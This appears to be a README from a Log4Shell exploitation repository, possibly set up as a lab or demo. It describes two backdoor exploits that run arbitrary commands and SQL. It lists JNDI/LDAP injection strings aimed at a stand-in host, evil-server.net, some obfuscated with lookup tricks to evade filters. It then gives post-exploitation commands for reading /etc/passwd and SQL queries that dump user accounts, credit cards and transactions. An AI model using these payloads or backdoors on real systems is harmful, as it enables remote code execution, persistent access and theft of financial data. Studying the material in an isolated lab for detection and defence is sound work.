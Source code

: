 # Actually exploiting Log4Shell

![Backdoor](../img/backdoor.png)

This repository contains the following Log4Shell exploits:

* [BackdoorServer](../exploits/BackdoorServer.java): installing a web-based backdoor on port `1337` which allows execution of arbitrary commands & SQL queries and removal of the backdoor again
* [BackdoorServerV2](../exploits/BackdoorServerV2.java): similar backdoor, but executed commands & SQL queries should also be detected as Command Injection & SQL Injection attacks

Exploiting the Log4Shell vulnerability then works by entering payloads similar as the ones shown below for the username. Only the part up to the port is relevant, everything after it is just for show-off purposes.

**Note:** the payloads below assume that you pointed a DNS entry `evil-server.net` to your LDAP server host, as described [here](log4shell_exploitation_setup_manual.md) (automatically taken care of in the Docker setup).

Installing backdoor (LDAP server on port 1389):

* `${jndi:ldap://evil-server.net:1389/InstallBackdoor}`
* `${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://evil-server.net:1389/InstallBackdoor}`

Installing backdoor V2 (LDAP server on port 1390):

* `${jndi:ldap://evil-server.net:1390/InstallBackdoorV2}`
* `${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://${lower:e}vil-${lower:s}erver.net:1390/${upper:I}nstallB${lower:a}ckdoorV2}`

As soon as one of the backdoors is running, commands and SQL queries as below might come in handy.

Commands (for Linux systems):

* `hostnamectl`: showing information about host (not working in Docker container)
* `cat /etc/passwd`: showing users via `/etc/passwd` file
* `ps aux`: showing running processes
* `netstat -tulpn`: showing listening ports and processes
* `ps aux | grep java`: showing all running `java` processes

SQL queries:

* `SELECT * FROM INFORMATION_SCHEMA.TABLES`: showing all tables in the database
* `SELECT * FROM ACCOUNT`: showing all user accounts
* `SELECT * FROM CREDITACCOUNT`: showing all credit cards
* `SELECT * FROM TRANSACTION`: showing all money transactions
* `SELECT * FROM CASHACCOUNT`: showing all cash accounts
